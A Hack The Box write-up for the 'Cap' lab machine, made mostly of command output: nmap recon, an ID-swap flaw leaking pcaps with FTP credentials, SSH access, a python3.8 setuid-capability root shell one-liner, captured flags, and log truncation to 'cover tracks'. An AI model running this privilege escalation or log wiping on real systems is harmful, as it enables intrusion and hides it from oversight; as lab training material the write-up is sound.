


# Cap (Hackthebox)

Link : https://app.hackthebox.com/machines/Cap

## Reconnaissance.
Target IP Address
10.10.10.245

## Enumeration/Scanning.
Nmaping 10.10.10.245
```bash
abhi@abhi-Lenovo-IdeaPad-S145-15IKB:~$ nmap -A -T5 10.10.10.245
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-12 10:48 IST
Warning: 10.10.10.245 giving up on port because retransmission cap hit (2).
Stats: 0:01:58 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 10:51 (0:00:34 remaining)
Nmap scan report for 10.10.10.245
Host is up (0.095s latency).
Not shown: 630 closed ports, 367 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Thu, 12 Sep 2024 05:09:16 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 12 Sep 2024 05:09:09 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 12 Sep 2024 05:09:09 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard

Nmap done: 1 IP address (1 host up) scanned in 192.88 seconds
```

So there are three open ports :
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

lets visit the website





It seems to be some sort of a security dashboard


This url seems to take the data and a number lets try changing the number to acess other data

```html
http://10.10.10.245/data/8
replace the 8 with 1
http://10.10.10.245/data/1
```


trying all the posiablities and downloading the pcap files


there are 6 pcap files



here the 0.pcap file contains a username and password for the ftp service

```bash
username : nathan
password : Buck3tH4TF0RM3!
```

## Gaining Access.
Trying to login using the credientails found in the pervious step

```bash
abhi@abhi-Lenovo-IdeaPad-S145-15IKB:~$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:abhi): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> LS
?Invalid command.
ftp> ls
229 Entering Extended Passive Mode (|||39895|)
150 Here comes the directory listing.
-rwxrwxr-x    1 1001     1001       823059 Sep 12 00:24 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Sep 12 00:25 snap
-r--------    1 1001     1001           33 Sep 11 19:51 user.txt
226 Directory send OK.
ftp> get linpeas.sh
local: linpeas.sh remote: linpeas.sh
229 Entering Extended Passive Mode (|||51651|)
150 Opening BINARY mode data connection for linpeas.sh (823059 bytes).
100% |***********************************|   803 KiB  343.56 KiB/s    00:00 ETA
226 Transfer complete.
823059 bytes received in 00:02 (307.07 KiB/s)
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||26313|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |***********************************|    33        0.38 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.08 KiB/s)
```

user.txt contains the flag
```bash
244f49dd4359315ba5f689b46d631ac0
```
Trying to login to the ssh servies using the passwrod perviousely attained

```bash
abhi@abhi-Lenovo-IdeaPad-S145-15IKB:~$ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Sep 12 06:33:55 UTC 2024

  System load:           0.0
  Usage of /:            37.0% of 8.73GB
  Memory usage:          37%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:d33e

  => There are 3 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Sep 12 00:18:55 2024 from 10.10.14.143
nathan@cap:~$ ls
linpeas.sh  snap  user.txt
nathan@cap:~$ ./linpeas.sh
```

## Privilege Escalation.
Runnning the script for privlage esculation
```bash
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

the /usr/bin/python3.8 binary is exploitable for a privilage esculation

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

nathan@cap:~$ /usr/bin/python3.8 = cap_setuid+ep
/usr/bin/python3.8: can't open file '=': [Errno 2] No such file or directory

nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

root@cap:~# id&&whoami
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root
root@cap:/home# cd /
root@cap:/# ls
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   tmp  var
root@cap:/# cd root/
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt 
49a440b2f0cae0a7b9c057a364fcce61

```

got the secret flag
```bash
root@cap:/root# cat root.txt 
49a440b2f0cae0a7b9c057a364fcce61
```

## Covering Tracks.

covering the tracks by deleting the contents of the log file

```bash
root@cap:/root# cd /var/log/
root@cap:/var/log# ls
alternatives.log       dmesg.2.gz     syslog.2.gz
alternatives.log.1     dmesg.3.gz     ubuntu-advantage.log
alternatives.log.2.gz  dpkg.log       ubuntu-advantage.log.1
apt                    dpkg.log.1     ubuntu-advantage.log.2.gz
auth.log               dpkg.log.2.gz  vmware-network.1.log
auth.log.1             faillog        vmware-network.2.log
auth.log.2.gz          installer      vmware-network.log
bootstrap.log          journal        vmware-vmsvc-root.1.log
btmp                   kern.log       vmware-vmsvc-root.2.log
btmp.1                 kern.log.1     vmware-vmsvc-root.3.log
cloud-init-output.log  kern.log.2.gz  vmware-vmsvc-root.log
cloud-init.log         landscape      vmware-vmtoolsd-root.log
dist-upgrade           lastlog        vsftpd.log
dmesg                  private        wtmp
dmesg.0                syslog
dmesg.1.gz             syslog.1

root@cap:/var/log# truncate -s 0 ./auth.log ./auth.log.1 kern.log kern.log.1 dmesg dmesg.0 syslog syslog.1
root@cap:/var/log# cat auth.log
root@cap:/var/log# 
```

checking the bash history 

```bash
root@cap:/var/log# cd ~
root@cap:~# ls
user.txt
root@cap:~# ls -la
total 28
drwxr-xr-x 3 nathan nathan 4096 May 27  2021 .
drwxr-xr-x 3 root   root   4096 May 23  2021 ..
lrwxrwxrwx 1 root   root      9 May 15  2021 .bash_history -> /dev/null
-rw-r--r-- 1 nathan nathan  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 nathan nathan 3771 Feb 25  2020 .bashrc
drwx------ 2 nathan nathan 4096 May 23  2021 .cache
-rw-r--r-- 1 nathan nathan  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root      9 May 27  2021 .viminfo -> /dev/null
-r-------- 1 nathan nathan   33 Sep 12 08:36 user.txt
root@cap:~# cat .bash_history 
root@cap:~# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# ls -la
total 36
drwx------  6 root root 4096 Sep 12 08:36 .
drwxr-xr-x 20 root root 4096 Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 May 23  2021 .cache
drwxr-xr-x  3 root root 4096 May 23  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 May 23  2021 .ssh
lrwxrwxrwx  1 root root    9 May 27  2021 .viminfo -> /dev/null
-r--------  1 root root   33 Sep 12 08:36 root.txt
drwxr-xr-x  3 root root 4096 May 23  2021 snap
```
seems to be cleared already

## Reporting
Above is the detail report on the exploitation techniques
